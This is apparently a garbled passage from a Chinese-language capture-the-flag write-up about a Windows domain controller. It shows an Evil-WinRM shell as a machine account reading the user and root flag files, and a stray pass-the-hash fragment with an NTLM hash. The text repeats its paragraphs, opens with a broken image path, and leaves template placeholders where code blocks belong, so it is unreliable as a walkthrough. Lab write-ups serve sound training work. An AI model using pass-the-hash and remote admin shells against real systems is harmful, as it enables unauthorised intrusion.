 ```bash
-----------------------
```
可以发现该用是Administrators组的用户

那么我们就不需要提权了

直接读flag

```PowerShell
\*Evil-WinRM\* PS C:\Users\FileServer$\Documents> type C:\Users\ybob317\Desktop\user.txt
6bab1f09a7403980bfeb4c2b412be47b
\*Evil-WinRM\* PS C:\Users\FileServer$\Documents> type C:\Users\administrator\desktop\root.txt
a9564ebc3289b7a14551baf8ad5ec60a
```


 -H e41da7e79a4c76dbd9cf79d1cb325559
```

![20.DC01.004](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/20.DC01.004.png)

获取`fileserver$` 用户在域控主机上的权限。

{{CODE_BLOCK_20}}
可以发现该用是Administrators组的用户

那么我们就不需要提权了

直接读flag

{{CODE_BLOCK_21}}


